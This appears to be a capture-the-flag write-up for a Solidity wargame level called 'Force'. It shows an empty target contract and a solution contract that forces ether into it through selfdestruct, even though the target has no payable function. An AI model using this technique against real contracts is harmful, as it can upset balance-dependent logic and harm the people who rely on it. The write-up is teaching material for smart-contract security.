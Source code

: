 This contract contains nothing except its own declaration.

Our goal is to forcefully send this contract some ether.

We know that a contract needs to have a payable function or payable fallback function to receive ether, but there's still another way to accomplish this.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

We can create a contract that self destructs itself after sending some ether

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {
    function forceFunds(address to) external payable {
        new Boom{value: msg.value}(to);
    }
}
contract Boom {
    constructor(address to) payable {
        selfdestruct(payable(to));
    }
}
```

The Boom contract constructor sends ether to the address "to" and immediately destroys itself.

The result is that the receiving contract will be sent some ether, even though it doesn't have a payable callback function.